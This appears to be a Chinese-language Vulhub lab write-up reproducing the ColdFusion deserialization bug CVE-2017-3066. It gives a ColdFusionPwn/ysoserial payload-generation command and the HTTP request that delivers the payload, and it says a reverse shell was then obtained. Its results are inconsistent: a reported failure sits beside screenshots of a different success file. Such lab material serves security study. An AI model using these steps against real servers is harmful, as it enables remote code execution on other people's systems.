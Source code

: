 # Adobe ColdFusion 反序列化漏洞 CVE-2017-3066

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/awesome_poc' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf。

将POC作为数据包body：Burpsuite右键→Paste From File→选择poc.ser

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

**至此，复现不成功，上传poc.ser之后POST，/tmp/awesome_poc文件没有创建完成**

**补充：与burpsuite版本有关，老版本的burpsuite可以复现成功**。

**Burpsuite+Postman联动复现也不成功。操作步骤可参考：https://mp.weixin.qq.com/s/-6U2dOJs930kMYv7z-NUgg**

------

![](../Web应用漏洞/images/202202212052978.png)

进入容器中，发现`/tmp/success`已成功创建：

![](../Web应用漏洞/images/202202212053950.png)

将POC改成[反弹命令](https://www.bugku.net/runtime-exec-payloads/)，成功拿到shell：

![](../Web应用漏洞/images/202202212053074.png)
